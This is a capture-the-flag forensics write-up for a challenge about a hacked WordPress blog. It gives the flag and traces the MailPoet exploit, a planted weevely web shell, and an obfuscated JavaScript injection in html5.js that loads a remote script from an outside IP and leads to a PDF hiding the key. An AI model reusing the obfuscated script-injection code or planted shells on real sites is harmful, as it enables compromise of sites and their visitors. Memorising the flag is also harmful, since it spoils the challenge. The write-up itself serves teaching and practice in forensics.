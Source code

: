 # Fluffy No More
## Author
Antoniweicz
## Points
300
## Category
Forensics
## Description
"OH NO WE'VE BEEN HACKED!!!!!! -- said the Eye Heart Fluffy Bunnies Blog owner. Life was grand for the fluff fanatic until one day the site's users started to get attacked! Apparently fluffy bunnies are not just a love of fun furry families but also furtive foreign governments. The notorious ""Forgotten Freaks"" hacking group was known to be targeting high powered politicians. Were the cute bunnies the next in their long list of conquests!??
Well... The fluff needs your stuff. I've pulled the logs from the server for you along with a backup of it's database and configuration. Figure out what is going on!"
## Flag
`key{Those Fluffy Bunnies Make Tummy Bumpy}`
## Solution
Within the apache log file (/var/logs/apache2/access.log) is an indicator of attack for the MailPoet vulnerability. Details here: [http://blog.sucuri.net/2014/07/mailpoet-vulnerability-exploited-in-the-wild-breaking-thousands-of-wordpress-sites.html](http://blog.sucuri.net/2014/07/mailpoet-vulnerability-exploited-in-the-wild-breaking-thousands-of-wordpress-sites.html)
I dont expect people to find that really, but maybe they will. The vulnerability is exploited and uploads two files to
```
/var/www/html/wp-content/uploads/wysija/themes/weblizer
```
template.php is a weevely shell. There is also a single execution command entry in the access.log of the attacker's modifications to the wordpress install, but people might not notice that either.
The attacker modified `/var/www/html/wp-content/themes/twentythirteen/js/html5.js` which only gets rendered if a user is using IE9 or below.
```
<!--[if lt IE 9]>
	<script src="http://blog.eyeheartfluffybunnies.com/wp-content/themes/twentythirteen/js/html5.js"></script>
	<![endif]-->
```
This is not attacker added code, but naturally occuring. You can see this from the source on the webpage. My expectation is people will actually create a LAMP server to replicate and notice this condition or do a diff of the plugins/themes.
However they get there, they'll hopefully notice that html5.js has a modification:
```
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```
This is an obfuscated way to do a script include from [http://128.238.66.100/analytics.js](http://128.238.66.100/analytics.js)
Students could notice this, or maybe use developer mode in the browser to see the js include.
Once to `analytics.js`, there is more obfuscation its basically two giagantic blocks of dummy code around:
```
var _0x91fe=["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66","\x5F\x73\x65\x6C\x66","\x6F\x70\x65\x6E"];window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```
This opens a new window that renders [http://128.238.66.100/announcement.pdf](http://128.238.66.100/announcement.pdf)
I expect that students will either use a user-agent switcher or <IE9 to get the request for announcement.pdf. I dont know that anyone will deal with the javascript.
Then the announcement.pdf has a file stream in it, you can
```
pdfextract announcement.pdf
cd announcement.dump/streams
cat steam_8
```
to see another javascript obfuscated version of:
```
var key = "YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}";
```
## Setup
